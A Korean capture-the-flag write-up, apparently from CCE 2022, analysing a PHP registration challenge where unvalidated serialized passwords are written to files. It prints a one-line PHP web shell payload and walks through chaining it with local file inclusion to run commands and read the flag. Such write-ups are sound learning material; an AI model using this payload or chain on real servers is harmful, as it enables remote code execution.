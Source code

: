 register.php 코드다.

사용자 계정을 생성하는 역할이다.

코드를 보면, `save_user_id()`를 실행한다.

```python
function save_user_id($id, $pw){
    chdir('../');
    file_put_contents("dbs/{$id}", serialize($pw));
}
```

`save_user_id()`는 util.lib.php에서 찾을 수 있었다. 

$pw를 `serialize($pw)`로 serialize를 수행하고 서버의 dbs/$id 경로에 파일로 저장한다.

이때, $pw에 대한 검증이 없다. 따라서 serialize 취약점을 이용한 RCE가 가능하다.

필자는 $pw로 웹쉘 코드를 업로드했다.

공격 시나리오를 정리하면 다음과 같다.

1. `save_user_id()`를 이용해서 “/dbs/$id” 에 웹쉘을 업로드한다.
    1. ex) $id: `keyme.php` , $pw: `<?php system($_GET['cmd']); ?>`
2. `process()`의 $action을 이용해서 LFI로 웹쉘에 접근한다.
    1. ex) ?b=dbs&a=keyme
3. 웹쉘을 이용해서 flag를 획득한다.
    1. ex) ?b=dbs&a=keyme&cmd=../../../flag
    2. 웹쉘에 접근할 때, cmd 파라미터를 같이 전송하면 웹쉘을 사용할 수 있다.

지금까지 작성한 내용 중에 다음과 같은 의문들이 발생할 수 있다.

`serialize()`로 웹쉘을 업로드한다면, “/dbs/$id” 파일에 

```python
s:[문자열 길이]:[php 웹쉘 코드]
```

로 저장될텐데, process()를 통해서 접근했을 때, 왜 PHP 코드가 실행될까?

이유는 serialize된 데이터를 include하는 것이므로 [php 웹쉘 코드]가 php 코드로 동작하면서 실행된다.

![Untitled](CCE%202022%20(1)%20c8e6a917993846b4b34a73854c2ac5c2/Untitled%201.png)

